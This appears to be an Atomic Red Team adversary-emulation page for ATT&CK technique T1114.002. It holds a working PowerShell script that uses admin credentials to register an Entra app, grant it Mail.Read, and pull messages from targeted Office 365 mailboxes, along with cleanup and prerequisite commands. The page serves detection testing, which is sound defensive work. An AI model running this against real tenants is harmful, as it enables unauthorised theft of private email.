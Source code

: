 # T1114.002 - Email Collection: Remote Email Collection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/002)
<blockquote>Adversaries may target an Exchange server, Office 365, or Google Workspace to collect sensitive information. Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network. Adversaries may also access externally facing Exchange services, Office 365, or Google Workspace to access email using credentials or access tokens. Tools such as [MailSniper](https://attack.mitre.org/software/S0413) can be used to automate searches for specific keywords.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Remote Mail Collected](#atomic-test-1---office365---remote-mail-collected)


<br/>

## Atomic Test #1 - Office365 - Remote Mail Collected
Create and register an entra application that downloads emails from a tenant's Office 365 mailboxes using the Microsoft Graph API app-only access. This can be used by an adversary to collect an organization's sensitive information.

**Supported Platforms:** Office-365


**auto_generated_guid:** 36657d95-d9d6-4fbf-8a31-f4085607bafd





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Full username (including @domain) of Entra user w/ AppRoleassignment.ReadWrite.All and Application.ReadWrite.All Scope (eg, Global Administrator Role) and sign-in method is password | string | |
| password | Entra user password | string | |
| 1st_target_mailbox | office-365 target_email_address | string | |
| 2nd_target_mailbox | office-365 target_email_address | string | |
| 3rd_target_mailbox | office-365 target_email_address | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
$ss = ConvertTo-SecureString "#{password}" -AsPlainText -Force
$cred = New-Object PSCredential -ArgumentList '#{username}', $ss
$param = @{
    Credential = $cred
    Force      = $true
}
$null = Connect-AzAccount @param
$token = (Get-AzAccessToken -ResourceTypeName MSGraph -ErrorAction Stop).token
$cert = New-SelfSignedCertificate -Subject "CN=PowerShell Application" -CertStoreLocation "Cert:\CurrentUser\My" -KeyExportPolicy Exportable -KeySpec Signature -KeyLength 2048 -KeyAlgorithm RSA -HashAlgorithm SHA256
$reqResourceAccess = ( @{ "resourceAccess" = (@{"id"= "570282fd-fa5c-430d-a7fd-fc8dc98a9dca"; "type"= "Scope"}, @{ "id"= "7427e0e9-2fba-42fe-b0c0-848c9e6a8182"; "type"= "Scope"}, @{"id"= "37f7f235-527c-4136-accd-4a02d197296e"; "type"= "Scope"}, @{"id"= "14dad69e-099b-42c9-810b-d002981feec1"; "type"= "Scope"}, @{ "id"= "e1fe6dd8-ba31-4d61-89e7-88639da4683d"; "type"= "Scope"}, @{ "id"= "810c84a8-4a9e-49e6-bf7d-12d183f40d01"; "type"= "Role"}); "resourceAppId" = "00000003-0000-0000-c000-000000000000" })
connect-mggraph -AccessToken $token
$context = Get-MgContext       
$users = get-MgUser
$app = New-MgApplication -DisplayName "T1114.002 Atomic Test #1 - Office365 - Remote Email Collection" -RequiredResourceAccess $reqResourceAccess -Web @{ RedirectUris="http://localhost"; } -KeyCredentials @(@{ Type="AsymmetricX509Cert"; Usage="Verify"; Key=$cert.RawData })
New-MgServicePrincipal -AppId $app.appId -AdditionalProperties @{} | Out-Null
$resourceSPN = Get-MgServicePrincipal -Filter "AppId eq '$($app.AppId)'"
$graphApiApp = Get-MgServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"
$mailRole = $graphApiApp.AppRoles|Where-Object Value -Eq "Mail.Read"
New-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $resourceSPN.Id -PrincipalId $resourceSPN.Id -ResourceId $graphApiApp.id -AppRoleId $mailRole.Id
$mailbox1 = "#{1st_target_mailbox}"
$mailbox2 = "#{2nd_target_mailbox}"
$mailbox3 = "#{3rd_target_mailbox}"
[System.Collections.ArrayList]$selectUsers = @()
foreach ($user in $users) {if (($user.Mail -eq $mailbox1) -Or ($user.Mail -eq $mailbox2) -Or ($user.Mail -eq $mailbox3)){$selectUsers.Add($user.id)}}
connect-mggraph -ClientId $app.AppId -TenantId $context.TenantId -CertificateName $cert.Subjectname.Name
foreach ($user in $selectUsers) { $url= "https://graph.microsoft.com/v1.0/users/$($user)/messages" ; Invoke-MgGraphRequest -Uri $url -Method GET -OutputType PSObject}
```

#### Cleanup Commands:
```powershell
connect-mggraph -Scopes AppRoleAssignment.ReadWrite.All,Application.ReadWrite.All,User.Read -NoWelcome
Remove-MgApplication $app.AppId
Remove-Item -Path Cert:\CurrentUser\My\$($cert.thumbprint) -DeleteKey
Disconnect-MgGraph
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Graph PowerShell SDK must be installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-InstalledModule Microsoft.Graph
if (-not $RequiredModule) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module Microsoft.Graph -Scope CurrentUser
```
##### Description: Az.Accounts module must be installed.
##### Check Prereq Commands:
```powershell
$RequiredModule2 = Get-InstalledModule Az.Accounts
if (-not $RequiredModule2) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module Az.Accounts -Scope CurrentUser
```




<br/>

